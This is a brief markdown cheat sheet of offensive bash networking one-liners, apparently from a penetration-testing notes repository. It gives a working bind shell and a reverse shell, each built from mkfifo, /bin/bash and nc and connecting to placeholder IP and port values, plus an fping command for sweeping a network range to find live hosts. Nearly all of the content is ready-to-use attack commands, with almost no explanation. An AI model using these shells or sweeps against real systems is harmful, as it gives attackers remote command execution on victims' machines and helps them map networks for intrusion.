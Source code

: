 # Bash - Network

## bash - bind shell to TCP session
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <VICTIM IP> <PORT > /tmp/f
```

## bash - nc - revshell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f
```

## fping -sweep
```
# `a` to show targets that are alive, `s` to print stats at the end of the scan, `g` to generate a target list from the CIDR network, and `q` to not show per-target results.
fping -asgq <range>
```
